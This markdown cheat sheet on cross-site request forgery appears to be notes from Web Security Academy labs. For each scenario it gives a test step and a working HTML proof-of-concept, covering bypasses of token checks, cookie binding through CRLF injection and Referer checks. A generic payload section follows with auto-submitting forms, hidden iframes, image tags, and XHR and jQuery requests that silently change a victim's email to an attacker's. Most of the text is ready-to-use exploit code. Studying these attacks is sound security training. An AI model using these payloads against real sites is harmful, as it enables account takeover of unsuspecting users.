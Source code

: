 # CSRF
## Scenarios
### No Defense
```html
<form method="POST" action="https://ac741ff11f938fe1801459c7009e0090.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="test@myemail.com">
</form>
<script>
document.forms[0].submit();
</script>
```

***

### CSRF where token validation depends on request method
#### Test
- Change request method
#### POC
```html
<img src="https://ac9a1f8f1e76e13f80360e0e009400d7.web-security-academy.net/my-account/change-email?email=test%40myemail.com">
```

***

### CSRF where token validation depends on token being present
#### Test
- Remove token from request and see if it passes
#### POC
```html
<form method="POST" action="https://ac741ff11f938fe1801459c7009e0090.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="test@myemail.com">
</form>
<script>
document.forms[0].submit();
</script>
```

***

### CSRF where token is not tied to user session
#### Test
- Get a fresh csrf token from the update email page via inspecting the source
- Open a private/incognito browser window, log in to your other account, and intercept the update request
- replace the csrf token with the one captured earlier
#### POC
```html
<form method="POST" action="https://ac001fe61f576f3b808b0f7100fd0037.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@myemail.com">
    <input type="hidden" name="csrf" value="KdhHWIn09SrZyjySlgfaHCS9TzXB0iss">  
    </form>
    <script>
    document.forms[0].submit();
    </script>
```

***

### CSRF where token is tied to non-session cookie
#### Test
- changing the session cookie logs you out, but changing the csrfKey cookie merely results in the CSRF token being rejected. This suggests that the csrfKey cookie may not be strictly tied to the session. 
- Observe that if you swap the csrfKey cookie and csrf parameter from the first account to the second account, the request is accepted.
- search for endpoints that gets reflected in the Set-Cookie header
- use CRLF injection to inject new cookie
#### POC
```html
<form method="POST" action="https://aca51fb61ff988aa803fa9cd003f0079.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@myemail.com">
    <input type="hidden" name="csrf" value="xe5r3sdRe2Ceizmo4blfpy02UKxpN03k">  
    </form>
    <img src="https://aca51fb61ff988aa803fa9cd003f0079.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=jGDyLoTZDIE2A47Chp2F9MjrjDNHdnHI" onerror="document.forms[0].submit()"> 
```

*** 

### CSRF where token is duplicated in cookie
#### Test
- Check if csrf token is validated against cookie
- Search for a point where cookie value gets reflected
#### POC
```html
<form method="POST" action="https://ac951f4f1e9fceda80912065008000ac.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="sasdasdasd@myemail.com">
    <input type="hidden" name="csrf" value="fake">  
    </form>
    <img src="https://ac951f4f1e9fceda80912065008000ac.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit()"> 
```

***

### CSRF where Referer validation depends on header being present
#### Test
- Check if the referer header is checked and used as CSRF mitigation
#### POC
```html
<meta name="referrer" content="no-referrer"> 
<form method="POST" action="https://ac081f091ee034ef802e1dbd00d60000.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="sasdasdasd@myemail.com">
</form>
<script>
       document.forms[0].submit();
</script>
```

***

### CSRF with broken Referer validation
#### Test 
- Does the website seems to accept any Referer header as long as it contains the expected domain somewhere in the string?
#### POC
```html
<form method="POST" action="https://acc21f351e145baf809bc06c00b30072.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="sasdasdasd@myemail.com">
    </form>
<script>
    history.pushState("", "", "/?acc21f351e145baf809bc06c00b30072.web-security-academy.net");
       document.forms[0].submit();
</script>
```

#### CSRF with Unverified Anti-CSRF Token
Another possible scenario is when the application implements strong Anti-CSRF tokens but lacks the verification server-side. This may seem unlikely, but it has occurred!
```html
<form action="change.php" >
<input type="hidden" name="anti_csrf" value="bgoDZVGis4bdsh672388293OrttIvgV">
<input type="hidden" name="old" value="myC00Lemail@victim.site">
<input type="email" name="new" placeholder="your new email" required>
<input type="submit" value="Confirm">
</form>
```

#### Bruteforcable CSRF tokens
Some applications generates anti-CSRF tokens with an extremely poor level of randomness, therefore, requiring only a few attempts to brute force the mechanism


## Payloads
### GET Requests
#### No interaction needed to trigger
via HTML tags
```html
<iframe src=URL>
<script src=URL />
<input type="image" src=URL alt="">
<embed src=URL>
<audio src=URL>
<video src=URL>
<source src=URL >
<video poster=URL>
<link rel="stylesheet" href=URL>
<object data=URL>
<body background=URL>
<div style="background:url(URL)">
<style>body { background:url(URL) } </style>
 
```

via HTML tags dynamically created by Javascript
```js
function MakeGET(tokenID) {
var url = "http://victim.site/csrf/brute/change.php?";
url += "old=myoldemail&confirm=1&";
url += "new=attackerEmail&csrfToken=" + tokenID;
new Image().src = url; //GET Request
}
```

### POST Requests
#### Auto-submitting Form
Via Hidden IFrames
```html
<iframe style="display:none" name="CSRFrame"></iframe>
<form action="change.php" method="POST" id="CSRForm" target="CSRFrame">
<input name="old" value="myC00Lemail@victim.site">
<input name="new" value="evil@hacker.site">
</form>
<script>document.getElementById("CSRForm").submit()</script>
```

or XHR requests
```js
var url = "URL";
var params = "old=mycoolemail@victim.site&new=evil@hacker.site";
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, false);
CSRF.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
CSRF.send(params);
```

or via JQuery
```js
$.ajax({
type: "POST",
url: "URL",
data: "old=mycoolemail@victim.site&new=evil@hacker.site",
});
```
